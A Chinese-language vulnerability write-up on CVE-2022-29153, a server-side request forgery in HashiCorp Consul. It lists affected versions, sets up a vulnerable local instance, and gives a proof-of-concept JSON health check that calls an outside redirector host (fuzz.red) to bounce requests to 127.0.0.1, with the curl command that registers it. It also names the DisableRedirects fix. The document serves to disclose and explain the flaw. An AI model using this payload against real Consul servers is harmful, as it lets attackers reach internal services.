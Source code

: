 # CVE-2022-29153 consul SSRF

## 漏洞信息
- 漏洞类型：SSRF
- 漏洞版本：< 1.9.17，>= 1.10.0, < 1.10.10，>= 1.11.0, < 1.11.5
- 漏洞简介：http类型的health_check被重定向导致的SSRF

## repo介绍
consul是一个用go语言编写的分布式应用管理服务器，目前在github上已经有24.7k个star

## 漏洞分析
consul提供了对于服务的health_check能力。首先安装一个漏洞版本的consul
```bash
curl -fsSL https://apt.releases.hashicorp.com/gpg | sudo apt-key add -
sudo apt-add-repository "deb [arch=amd64] https://apt.releases.hashicorp.com $(lsb_release -cs) main"
sudo apt-get update && sudo apt-get install consul=1.10.9
```
然后启动一个consul服务器
```bash
consul agent -dev -enable-script-checks -node=web -ui
```
访问`http://localhost:8500/`可以看到consul的界面

![image](images/1.png)

编写一个`ssrf.json`作为poc，里面标志的http地址会将请求302重定向到`127.0.0.1:80`
```json
{
  "ID": "ssrf",
  "name": "ssrf",
  "port": 5001,
  "check": {
    "checkid": "ssrf_check",
    "name": "Check ssrf",
    "http": "http://fuzz.red/ssrf/127.0.0.1/",
    "method": "GET",
    "interval": "10s",
    "timeout": "1s"
  }
}
```
使用如下指令将`health_check`注册到consul服务器
```sh
curl --request PUT --data @ssrf.json http://127.0.0.1:8500/v1/agent/service/register
```
可以看到添加成功

![image](images/2.png)

这时consul会主动运行`health_check`，请求被302重定向到内网，导致了SSRF。可以看到nc也收到了请求

![image](images/3.png)

## 修复方式
在[agent/config.go](https://github.com/hashicorp/consul/blob/928fefd2a7ee5ae8d90377514ec2022ee9730be0/agent/config/config.go#L391)中添`加DisableRedirects`字段，可以在服务器端配置，关闭`health_check`的重定向

![image](images/4.png)

## 参考链接
- https://github.com/advisories/GHSA-q6h7-4qgw-2j9p